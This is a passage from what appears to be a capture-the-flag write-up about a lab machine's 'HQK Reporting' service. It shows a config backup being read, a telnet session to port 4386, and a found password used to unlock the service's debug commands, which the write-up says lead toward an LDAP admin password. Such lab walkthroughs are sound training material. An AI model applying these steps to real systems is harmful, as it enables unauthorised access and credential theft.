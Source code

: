 **TL;DR**: HQK Reporting debug mode, read LDAP config for Admin password

Now looking at the backup config file `HQK_Config_Backup.xml` we can see the
service is running on port `4386`. The open port we saw earlier with [nmap][nmap].

```
$ cat C.Smith/HQK\ Reporting/HQK_Config_Backup.xml
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

So let's open a TCP socket with `telnet` to interact with the protocol:

```
$ telnet 10.10.10.178 4386 
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```

We can see there is a `DEBUG <Password>` command requiring a password.
All good we have one!

```
>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```
